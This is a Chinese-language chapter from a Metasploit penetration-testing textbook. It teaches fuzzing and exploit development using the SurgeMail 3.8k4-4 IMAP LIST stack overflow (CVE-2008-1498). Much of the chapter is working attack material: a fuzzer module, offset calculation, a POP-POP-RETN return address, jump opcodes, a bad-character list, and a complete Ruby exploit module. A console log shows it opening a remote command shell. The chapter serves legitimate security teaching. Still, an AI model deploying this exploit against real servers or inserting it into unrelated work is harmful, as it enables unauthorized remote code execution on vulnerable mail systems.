




## 第十四章 创建您自己的漏洞利用

作为渗透测试员，您将经常遇到没有 Metasploit 模块的应用程序。在这种情况下，您可以尝试发现应用程序中的漏洞，并为它们开发自己的漏洞利用。

发现漏洞的最简单方法之一是对应用程序进行模糊测试。*模糊测试*是指向应用程序发送无效、意外或格式错误的随机数据，并监控其异常，如崩溃。如果发现漏洞，您可以努力开发针对该漏洞的漏洞利用。模糊测试是一个广泛的话题，关于这个主题已经写出了整本书。在我们继续开发一个有效的漏洞利用模块之前，我们只会简要地触及模糊测试的表面。

在本章中，我们将向您介绍通过模糊测试和漏洞开发来识别漏洞的过程，我们将使用 NetWin SurgeMail 3.8k4-4 中已知的漏洞，该漏洞由 Matteo Memelli（ryujin）发现，可在[`www.exploit-db.com/exploits/5259/`](http://www.exploit-db.com/exploits/5259/)找到。该应用程序存在一个漏洞，导致其无法正确处理过长的`LIST`命令，从而引发堆栈溢出，使攻击者能够远程执行代码。

* * *

### 注意

本章假设您熟悉漏洞开发，并且对缓冲区溢出和调试器的使用概念感到舒适。如果您需要一点复习，您可以在 Exploit Database 网站上找到*corelanc0d3r*的一些优秀的教程，[`www.exploit-db.com/`](http://www.exploit-db.com/)。至少，考虑阅读“漏洞编写教程第一部分：基于堆栈的溢出”([`www.exploit-db.com/download_pdf/13535/`](http://www.exploit-db.com/download_pdf/13535/))和“漏洞编写教程第三部分：SEH” ([`www.exploit-db.com/download_pdf/13537/`](http://www.exploit-db.com/download_pdf/13537/))。

* * *

## 模糊测试的艺术

在开发任何漏洞利用之前，您需要确定应用程序中是否存在漏洞。这就是模糊测试发挥作用的地方。

下面的列表显示了简单 Internet 消息访问协议（IMAP）模糊测试器的代码。将其保存到您的*/root/.msf3/modules/auxiliary/fuzzers/*目录中，但请确保将您的测试模块保存在与 Metasploit 主分支分开的文件夹中。

```
require 'msf/core'
class Metasploit3 < Msf::Auxiliary
   include `Msf::Exploit::Remote::Imap`
   include `Msf::Auxiliary::Dos`
        def initialize
                super(
                        'Name'           => 'Simple IMAP Fuzzer',
                        'Description'    => %q{
                                                An example of how to
 build a simple IMAP fuzzer.
                                                Account IMAP
 credentials are required in this
                                                     fuzzer.},
                        'Author'         => [ 'ryujin' ],
                        'License'        => MSF_LICENSE,
                        'Version'        => '$Revision: 1 $'
                )
        end
        def fuzz_str()
             `return Rex::Text.rand_text_alphanumeric(rand(1024))`
        end
        def run()
                srand(0)
                while (true)
                     connected = connect_login()
                        if not connected
                              print_status(
`"Host is not responding - this is G00D ;`)")
                                break
                        end
                        print_status("Generating fuzzed data...")
                    `fuzzed = fuzz_str()`
                        print_status("Sending fuzzed data,
 buffer length = %d" % fuzzed.length)
                    req = '0002 LIST () "/' + fuzzed + '" "PWNED"' + "\r\n"
                        print_status(req)
                        res = raw_send_recv(req)
                                if !res.nil?
                        print_status(res)
                                else
                                      print_status(`"Server crashed, no response"`)
                                        break
                                end
                        disconnect()
                end
        end
end
```

模糊测试模块首先导入 IMAP ![../images/00002.gif] 和拒绝服务 ![../images/00004.gif] 混合。包括 IMAP 为您提供了所需的登录功能，由于模糊测试的目标是使服务器崩溃，因此该模块导致拒绝服务。

在  处，将 *模糊字符串*（我们想要发送的畸形数据）设置为最大长度为 1024 字节的随机字母数字字符字符串。模糊测试器连接并登录到远程服务，如图  所示，如果它无法连接并且循环中断，你就有值得调查的东西了。服务器没有响应可能意味着你已经在远程服务中成功引发了异常。

在  处，变量 `fuzzed` 被设置为框架生成的随机字符串，并且根据已发布的漏洞代码构建恶意请求 ，通过将恶意数据追加到易受攻击的 `LIST` 命令。如果模糊测试器没有从服务器收到响应，它会打印消息 `"Server crashed, no response"` 并退出。

要测试你的新模糊测试器，启动 *msfconsole*，加载模块，并设置其选项如下：

```
msf > `use auxiliary/fuzzers/imap_fuzz`
msf auxiliary(imap_fuzz) > `show options`

Module options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   IMAPPASS                   no        The password for the specified username
   IMAPUSER                   no        The username to authenticate as
   RHOST                      yes       The target address
   RPORT     143              yes       The target port

msf auxiliary(imap_fuzz) > `set IMAPPASS test`
IMAPPASS => test
msf auxiliary(imap_fuzz) > `set IMAPUSER test`
IMAPUSER => test
msf auxiliary(imap_fuzz) > `set RHOST 192.168.1.155`
RHOST => 192.168.1.155
msf auxiliary(imap_fuzz) >
```

模糊测试器现在应该已经准备好了。确保你选择的调试器（在我们的示例中我们使用 Immunity Debugger）附加到 *surgemail.exe* 进程，并启动模糊测试器：

```
msf auxiliary(imap_fuzz) > `run`

 [*] Authenticating as test with password test...
  [*] Generating fuzzed data...
 [*] Sending fuzzed data, buffer length = 684

 [*] 0002 LIST () "/v1AD7DnJTVykXGYYM6BmnXuYRlZNIJUzQzFPvA
SjYxzdTTOngBJ5gfK0XjLy3ciAAk1Fmo0
       RPEpq6f4BBnp5jm3LuSbAOj1M5qULEGEv0DMk0oOPUj6XPN1VwxFpjAf
FeAxykiwdDiqNwnVJAKyr6X7C5ije7
       DSujURybOp6BkKWroLCzQg2AmTuqz48oNeY9CDeirNwoITfIaC40
Ds9OgEDtL8WN5tL4QYdVuZQ85219Thogk7
       75GVfNH4YPpSo2PLmvd5Bf2sY9YDSvDqMmjW9FXrgLoUK2rl9cvoCbTZ
X1zuU1dDjnJJpXDuaysDfJKbtHn9Vh
       siiYhFokALiF1QI9BRwj4bo0kwZDn8jyedxhSRdU9CFlMs19CvbVnnL
WeRGHScrTxpduVJZygbJcrRp6AWQqke
       Y0DzI4bd7uXgTIHXN6R403ALckZgqOWcUSEWj6THI9NFAIPP1LEnctaK
0uxbzjpS1ize16r388StXBGq1we7Qa
       8j6xqJsN5GmnIN4HQ4W4PZIjGRHUZC8Q4ytXYEksxXe2ZUhl5Xbdhz13
zW2HpxJ2AT4kRU1wDqBUkEQwvKtoeb
       rfUGJ8bvjTMSxKihrDMk6BxAnY6kjFGDi5o8hcEag4tzJ1FhH9eI2UHD
VbsDmUHTfAFbreJTHVlcIruAozmZKz
       i7XgTaOgzGh" "PWNED"

 [*] 0002 OK LIST completed

  `. . . SNIP . . .`

  [*] Authenticating as test with password test...
  [*] Generating fuzzed data...
  [*] Sending fuzzed data, buffer length = `1007`
  [*] 0002 LIST () "/FzwJjIcL16vW4PXDPpJbpsHB4p7Xts9fbaJYjRJASXR
qbZnOMzprZfVZH7BYvcHuwlN0Yq
       yfoCrJyobzOqoscJeTeRgrDQKA8MDDLbmY6WCQ6XQH9Wkj4c9JCfPjIq
TndsocWBz1xLMX1VdsutJEtnceHvhl
       Gqee6Djh7v3oJW4tXJMMxe8uR2NgBlKoCbH18VTR8GUFqWCmQ097
0B3gR9foi6inKdWdcE6ivbOHElAiYkFYzZ
       06Q5dvza58DVhn8sqSnRAmq1UlcUGuvr6r99POlrZst10r606J2B03TBGDFuy
0dNMI0EUANKZ6OnCn3Zk1JL65
       9MC8PZy0frCiPBqZ4xn0biAjFTH5LsCjIFuI5eZ9LsdXdek7iiOhEmW6
D86mAtyg9S1a7RALrbRcLIHJpwMsEE
       5LS1wIV9aFPS6RQwI4DtF4bGSle1FCyf63hy3Vo8AKkId6yu5MfjwfUExand
VeUldk8c5bhlyqoDp3UX2ClQPZ
       os0KpFoIcxmq8R0E3Ri54l5Yl3OPcN7U20Kb1CEAfbhxGFgh1oMzjJpuM7
IbHMrZNjVADz6A0byzgiP2pXa7Zm
       OloV9u6Fwa0l6sR6oL0Png9MYNwTMXTUdiE7rOjuOmkdgglPTkZ3n4de1FE
aLh8Xhf9SNSPZUX0M7gmUiyNYv6
       qti3Omy8qvjJOQui1IhUhf5fKOunKIcB5Zw7quznxV1GF2R5hXVTw1vlbMi5
TQW68ZDFlD6q6BJ4S3oNrFCyXX
       aQpAURyCoDGdjoxk1vrUPGusf3i4EIF2iqyyekWiQ7GuYcwMax3o0ZXB2djFh2
dYEGyBSCHaFhpwUgamThinnM
       AsDFuEY9Hq9UOQSmZ6ySunifPFjCbDs4Zooquw0HPaVnbNVo97tfVBYSei9dWCUWwU
APVJVsTGoDNRVarOrg8q
       wbziv8aQaPZ7Y8r0SUiB1nNhlhl3UCVZpf8Gck0psjETf4ks356q0I
3mLZkqCLkznVV4ayetVgaDm" "PWNED"

 [*] Server crashed, no response
  [*] Auxiliary module execution completed
  msf auxiliary(imap_fuzz) >
```

在这个列表中，模糊测试器连接并登录到远程服务，如图  所示，并在  生成一串随机的文本。在  将恶意请求发送到服务器，并接收并显示响应，如图  所示。如果服务器没有收到响应，你会在  收到通知，表明服务器已崩溃，这是你检查调试器的提示。

如果你现在在 Windows 目标上检查你的调试器，你应该会看到它已经暂停在崩溃点，如图 图 14-1 所示。观察崩溃情况，我们可以看到没有内存地址被覆盖，而且不幸的是，乍一看似乎没有什么可以利用的地方。经过进一步调整缓冲区长度，你会发现通过发送一个更长的 11,000 字节字符串，你可以覆盖结构化异常处理程序（SEH）。控制 SEH 使得攻击更加可靠，因为它使它更加灵活。同样，使用应用程序 DLL 作为返回地址使得攻击可以在不同的操作系统版本之间移植。

 图 14-1. 调试器在崩溃点暂停。

要发送 11,000 字节的字符串，我们在模糊测试器代码中进行了一些小的修改，如下所示：

```
print_status("Generating fuzzed data...")
 `fuzzed = "A" * 11000`
  print_status("Sending fuzzed data, buffer length = %d" % fuzzed.length)
  req = '0002 LIST () "/' + fuzzed + '" "PWNED"' + "\r\n"
```

而不是使用随机字符字符串，这个代码修改将 11,000 个 *A* 字符作为恶意请求的一部分发送。

## 控制结构化异常处理程序

如果你重新启动*surgemail*服务，将调试器附加到进程，并重新运行模块，你应该能在你的调试器中看到 fuzzing 发现的崩溃。如果你使用的是 Immunity Debugger，你应该能够通过选择**视图**▸**SEH 链**来查看 SEH 链的内容。右键单击值，应该是*41414141*，然后选择**在堆中跟随地址**来显示导致 SEH 覆盖的堆内容，如图图 14-2 所示。

图 14-2. 覆盖后的 SEH 条目

现在你已经知道你可以通过一个过长的缓冲区来控制易受攻击的*surgemail*进程上的 SEH 链，现在是时候确定覆盖它在目标机上所需的精确长度。正如你从我们的独立漏洞利用开发讨论中回忆的那样，在你可以使用返回地址之前，你首先需要找出覆盖的确切位置。

我们可以修改我们的 fuzzer 代码来创建一个特定长度的非重复、随机字符字符串，如下所示：

```
print_status("Generating fuzzed data...")
  fuzzed = `Rex::Text.pattern_create`(11000)
  print_status("Sending fuzzed data, buffer length = %d" % fuzzed.length)
  req = '0002 LIST () "/' + fuzzed + '" "PWNED"' + "\r\n"
```

在这个列表中，我们使用`Rex::Text.pattern_create`来生成 fuzzer 的非重复随机字符字符串。重新运行 fuzzer 模块现在显示 SEH 在目标机上被*684E3368*覆盖，如图图 14-3 所示。

图 14-3. 使用随机字符覆盖的 SEH

当 SEH 被我们的随机字符集覆盖后，我们可以使用位于*/opt/metasploit3/msf3/tools/*目录下的*pattern_offset.rb*来确定覆盖的确切位置，通过传递感兴趣的字符（*684E3368*）以及发送到目标机的字符串长度（*11000*），如下所示：

```
root@bt:˜/.msf3/modules/auxiliary/fuzzers#
 `/opt/metasploit3/msf3/tools/pattern_offset.rb`
      `684E3368 11000`
10360
```

值*10360*表示覆盖 SEH 的四个字节是 10361、10362、10363 和 10364。现在我们可以最后一次更改 fuzzer 代码来验证我们的发现：

```
print_status("Generating fuzzed data...")
 fuzzed = "\x41" * `10360` fuzzed << "\x42" * `4` fuzzed << "\x43" * `636`
print_status("Sending fuzzed data, buffer length = %d" % fuzzed.length)
```

如所示，fuzzer 将从 10,360 个*A*（十六进制*41*）开始构建恶意请求，接着是四个*B*（十六进制*42*）来覆盖 SEH，然后是 636 个*C*（十六进制*43*）作为填充，以保持字符串长度恒定为 11,000 字节。

再次运行 fuzzer 针对目标机显示，整个 SEH 链完全在你的控制之下，如图图 14-4 所示。

图 14-4. 完全控制的 SEH

## 跳过 SEH 限制

在 SEH 覆盖之后，在栈的末尾之前几乎没有空间用于 shellcode。通常，会使用 *POP-POP-RETN* 指令集来达到下一个 SEH（NSEH），然后向前短跳入 shellcode。我们将通过开发一个尽可能为我们的最终有效载荷使用空间的漏洞利用来克服这个有限的空间限制。在这个阶段，我们已经完成了模糊测试过程，并将进入为我们发现的漏洞开发漏洞利用。

这个漏洞利用将是 *egg hunter* 的良好候选，这是一种搜索内存以查找主要有效载荷的小段 shellcode；然而，我们将使用不同的策略，并用 *POP-POP-RETN* 指令指针覆盖 SEH。一旦覆盖完成，我们将进行一个短距离的回跳，这需要非常少的指令（而不是向前跳转）。接下来，我们将使用短跳转中获得的空余空间来执行更大的近跳转，跳回 NOP 滑行和 shellcode。虽然这不是必需的，但 NOP 滑行总是漏洞利用中的一个好补充，因为它在内存中缓冲区位置发生变化时为你提供了一些错误空间。NOPs 不会对漏洞利用代码产生不利影响，并充当填充物。从概念上讲，攻击将看起来像这样：

```
[Buffer of garbage | NOP Slide | Shellcode | Near Jump | Short Jump | POP-POP-RETN]
```

为了确保漏洞利用在不同版本的 Windows 上的可移植性，请使用来自应用程序 DLL 或可执行文件的返回地址。在这种情况下，只有应用程序的可执行文件本身可用，因此你可以尝试使用来自 *surgemail.exe* 文件的 *POP-POP-RETN* 指令序列来执行三个字节的 SEH 覆盖。如果这可以成功完成，那么漏洞利用将在 Windows 的不同版本中通用。

让我们继续创建针对 SurgeMail 漏洞的实际漏洞利用。以下是我们初始的骨架漏洞利用模块，需要保存在 */root/.msf3/modules/exploits/windows/imap/*：

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote

    include Msf::Exploit::Remote::Imap

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Surgemail 3.8k4-4 IMAPD LIST Buffer Overflow',
            'Description'    => %q{
                This module exploits a stack overflow in the Surgemail IMAP Server
                version 3.8k4-4 by sending an overly long LIST command. Valid IMAP
                account credentials are required.
            },
            'Author'         => [ 'ryujin' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 1 $',
            'References'     =>
                [
                    [ 'BID', '28260' ],
                    [ 'CVE', '2008-1498' ],
                    [ 'URL', 'http://www.exploit-db.com/exploits/5259' ],
                ],
            'Privileged'     => false,
            'DefaultOptions' =>
                {
                    'EXITFUNC' => 'thread',
                },
            'Payload'        =>
                {
                  `'Space'       => 10351,`
                    'DisableNops' => true,
                    'BadChars'    => "\x00"
                },
            'Platform'       => 'win',
            'Targets'        =>
                [
                   [ 'Windows Universal', { 'Ret' =>
 0xDEADBEEF } ], # p/p/r TBD
                ],
            'DisclosureDate' => 'March 13 2008',
            'DefaultTarget' => 0))
    end

    def exploit
      connected = connect_login
      lead = "\x41" * 10360
      evil = lead + "\x43" * 4
        print_status("Sending payload")
      sploit = '0002 LIST () "/' + evil + '" "PWNED"' + "\r\n"
      sock.put(sploit)
        handler
        disconnect
    end

end
```

在  处的 `'Space'` 声明指的是可用于 shellcode 的空间。在漏洞利用模块中，这个声明非常重要，因为它决定了 Metasploit 在运行你的漏洞利用时允许你使用哪些有效载荷。一些有效载荷需要的空间比其他的多得多，所以尽量不要高估这个值。有效载荷的大小差异很大，编码会增加它们的大小。要查看未编码有效载荷的大小，你需要使用 `info` 命令后跟有效载荷的名称，并查找 `Total size` 值，如下所示：

```
msf > `info payload/windows/shell_bind_tcp`

       Name: Windows Command Shell, Bind TCP Inline
     Module: payload/windows/shell_bind_tcp
    Version: 8642
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 341
       Rank: Normal
```

在 `'Targets'` 部分的  处的返回地址目前被一个占位符值占用，我们将在漏洞利用开发过程中稍后更改它。

与前面讨论的 fuzzer 模块一样，这个漏洞利用连接并登录到处的目标，使用处的字符串`*A*s`作为初始缓冲区，并在处附加四个`*C*s`以覆盖 SEH。整个漏洞利用字符串在处生成，然后发送到处的目标。

## 获取返回地址

下一步是在`surgemail.exe`中定位一个`*POP-POP-RETN*`序列。为此，将可执行文件复制到您的 Back|Track 机器上的一个位置，然后使用`msfpescan`的`-p`开关查找合适的候选者，如下例所示：

```
root@bt:/tmp# `msfpescan -p surgemail.exe`

[surgemail.exe]
0x0042e947 pop esi; pop ebp; ret
0x0042f88b pop esi; pop ebp; ret
0x00458e68 pop esi; pop ebp; ret
0x00458edb pop esi; pop ebp; ret
0x0046754d pop esi; pop ebp; ret
0x00467578 pop esi; pop ebp; ret
0x0046d204 pop eax; pop ebp; ret

`. . . SNIP . . .`

0x0078506e pop ebx; pop ebp; ret
0x00785105 pop ecx; pop ebx; ret
`0x0078517e` pop esi; pop ebx; ret
```

当`msfpescan`针对目标可执行文件运行时，它会读取机器代码，寻找与目标匹配的汇编指令（在这种情况下为`*POP-POP-RETN*`序列），并显示这些指令发生的内存地址。如您在列表中看到的，找到了多个地址。我们将使用输出末尾的地址，*0x0078517e*，来覆盖漏洞利用中的 SEH。选择后，我们编辑漏洞模块的`'Targets'`部分以包含此地址，并编辑`exploit`部分以将其包含在要发送的缓冲区中，如下所示。

```
'Platform'       => 'win',
            'Targets'        =>
                [
                  [ 'Windows Universal', { 'Ret' =>
 `"\x7e\x51\x78"` } ], # p/p/r in surgemail.exe
                ],
            'DisclosureDate' => 'March 13 2008',
            'DefaultTarget' => 0))
    end

    def exploit
        connected = connect_login
        lead = "\x41" * 10360
      evil = lead + `[target.ret].pack("A3")`
        print_status("Sending payload")
        sploit = '0002 LIST () "/' + evil + '" "PWNED"' + "\r\n"
```

要执行 SEH 的三个字节覆盖，我们将要添加到`'Targets'`块中的三个字节设置为处的缓冲区，按小端序排列，如列表中加粗字体所示。（端序由目标 CPU 的架构确定，与 Intel 兼容的处理器使用小端序字节排列。）

在处，我们将`evil`字符串中的三个`*C`s 替换为`[target.ret].pack("A3")`，这将精确地发送与`'Targets'`块中声明的地址相同的返回地址。当修改使用三个字节覆盖的许多漏洞利用时，您可以声明目标地址（在这种情况下为`*0x0078517e*`），Metasploit 将在您使用 `[target.ret].pack('V')` 时自动正确排序字节。这种场景需要更细粒度的控制，因为如果我们发送空（00）字节，它将代表字符串的结尾，可能会阻止漏洞利用正常工作。

现在是运行漏洞利用以确保其正常工作的好时机。如果在开发漏洞利用时跳得太远，您可能会犯错误，并需要大量回溯以找出问题所在。以下是一个漏洞利用示例：

```
msf > `use exploit/windows/imap/surgemail_book`
  msf exploit(surgemail_book) > `set IMAPPASS test`
  IMAPPASS => test
  msf exploit(surgemail_book) > `set IMAPUSER test`
  IMAPUSER => test
  msf exploit(surgemail_book) > `set RHOST 192.168.1.155`
  RHOST => 192.168.1.155
 msf exploit(surgemail_book) > `set PAYLOAD generic/debug_trap`
  PAYLOAD => generic/debug_trap
  msf exploit(surgemail_book) > `exploit`

  [*] Authenticating as test with password test...
  [*] Sending payload
  [*] Exploit completed, but no session was created.
  msf exploit(surgemail_book) >
```

我们在处使用的有效载荷`generic/debug_trap`实际上不会发送有效载荷。相反，它发送多个`\xCC`s，或断点，以调试漏洞利用的执行流程。这有助于确认您的 shellcode 已正确插入到漏洞利用中的正确位置。

在运行利用程序后，打开 Immunity Debugger，如图图 14-5，在崩溃时选择**查看** ▸ **SEH 链**。通过按 F2 设置一个断点，然后按 shift-F9 将异常传递给应用程序并进入*POP-POP-RETN*指令序列。

现在，仍然在调试器中，按 F7 单步执行指令，直到你到达包含在 NSEH 中的*41414141*。

图 14-5. 在*POP-POP-RETN*指令中着陆

接下来，编辑利用程序以包含短跳转的指令，如下所示：

```
def exploit
        connected = connect_login
      lead = "\x41" * `10356`
      nseh = `"\xeb\xf9\x90\x90"`
        evil = lead + nseh + [target.ret].pack("A3")
        print_status("Sending payload")
        sploit = '0002 LIST () "/' + evil + '" "PWNED"' + "\r\n"
        sock.put(sploit)
        handler
        disconnect
end
```

在编辑你的利用程序时，确保在做出更改时调整初始缓冲区长度在，否则你的对齐将出错。在这种情况下，NSEH 正被覆盖以执行一个短的五字节跳转(`\xeb\xf9\x90\x90`)，其中`eb`是短跳转的操作码。新的引导缓冲区长度调整为 10,356 字节，因为这些五个新字节位于 SEH 覆盖之前。

当你再次运行利用程序并通过调试器中的指令进行单步执行时，你应该在异常处理程序值之前的*41*（十六进制的*A*）中着陆。五个`INC ECX`指令应替换为跳转回初始缓冲区更远位置的代码。

现在我们将修改利用程序，以包含“近跳”(*\xe9\xdd\xd7\xff\xff*)指令序列，以便跳转回缓冲区开始附近的位置。查看缓冲区(图 14-6)，你可以看到整个*A*字符串完全完好无损，留下了超过 10,000 字节的空间用于 shellcode。由于功能性的 shellcode 平均所需空间小于 500 字节，这为你留下了充足的空间。

图 14-6. 大量空间用于 shellcode

现在你只需要将*A*字符串的缓冲区替换为 NOPs(`\x90`)，以给自己提供一个漂亮的 NOP 滑行着陆点，然后你可以坐下来让 Metasploit 处理 shellcode。

```
def exploit
        connected = connect_login
      lead = "\x90" * (`10351` - payload.encoded.length)
      near = "\xe9\xdd\xd7\xff\xff"
        nseh = "\xeb\xf9\x90\x90"
      evil = lead + payload.encoded + near + nseh + [target.ret].pack("A3")
        print_status("Sending payload")
        sploit = '0002 LIST () "/' + evil + '" "PWNED"' + "\r\n"
        sock.put(sploit)
        handler
        disconnect
end
```

如此列表所示，我们之前使用的*A*字符串的初始字符串被 NOPs 替换，减去 Metasploit 在生成的 shellcode 的长度。注意，缓冲区长度最初为 10,356 字节，已减少五个字节至 10,351，以考虑中的近跳转指令。最后，使用所有利用程序组件在构建恶意字符串。

现在我们可以选择一个真实的有效载荷并执行模块以查看会发生什么。令人惊讶的是，利用程序完成了，但没有创建会话。利用程序模块连接并发送其有效载荷，但没有 shell 返回给我们，如下所示：

```
msf exploit(surgemail_book) > `set payload windows/shell_bind_tcp`
payload => windows/shell_bind_tcp

msf exploit(surgemail_book) > `exploit`

[*] Started bind handler
[*] Authenticating as test with password test...
[*] Sending payload
[*] Exploit completed, but no session was created.
msf exploit(surgemail_book) >
```

## 坏字符和远程代码执行

嗯，这肯定不是预期的结果：漏洞利用完成了，但没有创建会话。如果你检查你的调试器，你会看到应用程序甚至没有崩溃——那么发生了什么？欢迎来到有时具有挑战性且几乎总是令人沮丧的坏字符世界。一些字符，当作为漏洞缓冲区的一部分发送时，在应用程序读取时会被破坏。不幸的结果是，坏字符使你的 shellcode，有时甚至是整个漏洞利用变得不可用。

在编写 Metasploit 模块时，你应该始终确保识别出所有坏字符，因为 Metasploit 生成的 shellcode 在每次启动漏洞利用时都会有所不同，任何未知的坏字符都会大大降低模块的可靠性。在许多情况下，如果你未能找到所有坏字符，应用程序在运行 shellcode 之前就会崩溃。在先前的例子中，SurgeMail 甚至没有崩溃。漏洞利用似乎成功了，但我们没有得到会话。

有许多方法可以识别坏字符，包括用一系列连续字符（`\x00\x01\x02`...）替换动态创建的 shellcode，并检查调试器以查看第一个字符在哪里被破坏，并将该字符标记为坏字符。然而，最快的方法之一是在类似漏洞的源代码中找到坏字符。例如，对 IMAP 漏洞的搜索发现 `\x00\x09\x0a\x0b\x0c\x0d\x20\x2c\x3a\x40\x7b` 被列为坏字符，如下所示：

```
'Privileged'     => false,
'DefaultOptions'  =>
    {
        'EXITFUNC' => 'thread',
    },
'Payload'         =>
    {
        'Space'       => 10351,
        'DisableNops' => true,
        `'BadChars'    => "\x00\x09\x0a\x0b\x0c\x0d\x20\x2c\x3a\x40\x7b"`
    },
'Platform'        => 'win',
'Targets'        =>
```

当你在漏洞模块中声明 `'BadChars'` 时，Metasploit 将自动将它们从 shellcode 以及任何自动生成的文本字符串或 NOPs 中排除。

当我们再次运行漏洞利用，如以下所示，在声明坏字符之后，我们在第三次尝试时终于得到了会话。漏洞利用仍然不可靠，但它之所以能工作，是因为 Metasploit 在每次运行漏洞利用时都会动态更改 shellcode。因此，导致模块失败的字符可能并不总是存在。

```
msf exploit(surgemail_book) > `rexploit`

[*] Started bind handler
[*] Authenticating as test with password test...
[*] Sending payload
[*] Exploit completed, but no session was created.
msf exploit(surgemail_book) > `rexploit`

[*] Started bind handler
[*] Authenticating as test with password test...
[*] Sending payload
[*] Exploit completed, but no session was created.
msf exploit(surgemail_book) > `rexploit`

[*] Started bind handler
[*] Authenticating as test with password test...
[*] Sending payload
[*] Command shell session 1 opened (192.168.1.101:59501 -> 192.168.1.155:4444)

(C) Copyright 1985-2001 Microsoft Corp.

c:\surgemail>
```

确定剩余的坏字符是留给读者的练习。一种虽然繁琐但极好的方法是遵循 [`en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit#Dealing_with_badchars`](http://en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit#Dealing_with_badchars) 中描述的技术。

当前漏洞利用代码，包括我们添加的所有部分，如下所示：

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote

    include Msf::Exploit::Remote::Imap

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Surgemail 3.8k4-4 IMAPD LIST Buffer Overflow',
            'Description'    => %q{
                This module exploits a stack overflow in the Surgemail IMAP Server
                version 3.8k4-4 by sending an overly long LIST command. Valid IMAP
                account credentials are required.
            },
            'Author'         => [ 'ryujin' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 1 $',
            'References'     =>
                [
                    [ 'BID', '28260' ],
                    [ 'CVE', '2008-1498' ],
                    [ 'URL', 'http://www.exploit-db.com/exploits/5259' ],
                ],
            'Privileged'     => false,
            'DefaultOptions' =>
                {
                    'EXITFUNC' => 'thread',
                },
            'Payload'        =>
                {
                    'Space'       => 10351,
                    'DisableNops' => true,
                    'BadChars'    => "\x00\x09\x0a\x0b\x0c\x0d\x20\x2c\x3a\x40\x7b"
                },
            'Platform'       => 'win',
            'Targets'        =>
                [
                    [ 'Windows Universal', { 'Ret' =>
 "\x7e\x51\x78" } ], # p/p/r in surgemail.exe
                ],
            'DisclosureDate' => 'March 13 2008',
            'DefaultTarget'  => 0))
    end

    def exploit
        connected = connect_login
        lead = "\x90" * (10351 - payload.encoded.length)
        near = "\xe9\xdd\xd7\xff\xff"
        nseh = "\xeb\xf9\x90\x90"
        evil = lead + payload.encoded + near + nseh + [target.ret].pack("A3")
        print_status("Sending payload")
        sploit = '0002 LIST () "/' + evil + '" "PWNED"' + "\r\n"
        sock.put(sploit)
        handler
        disconnect
    end

end
```

## 总结

尽管我们在这章中没有发现新的漏洞，但我们已经涵盖了从开发并运行 fuzzer 到开发有效漏洞的整个过程。我们在这章中构建的漏洞复杂且不寻常，因此提供了超越基础并探索创意途径以获得代码执行的优秀机会。

深入了解 Metasploit 的最佳方法之一是阅读 Metasploit 源文件和其他漏洞利用模块，以更好地了解 Metasploit 框架中可能实现的内容。本章中的技术已经为你提供了开始发现漏洞和开发利用 Metasploit 框架漏洞的漏洞利用模块所需的基本工具。

在下一章中，我们将开始将漏洞利用代码移植到框架中，这将基于本章所学到的知识。我们将向您展示如何通过重写漏洞利用代码并进行调试，将其转换为可工作的 Metasploit 漏洞利用模块，并查看其执行过程。
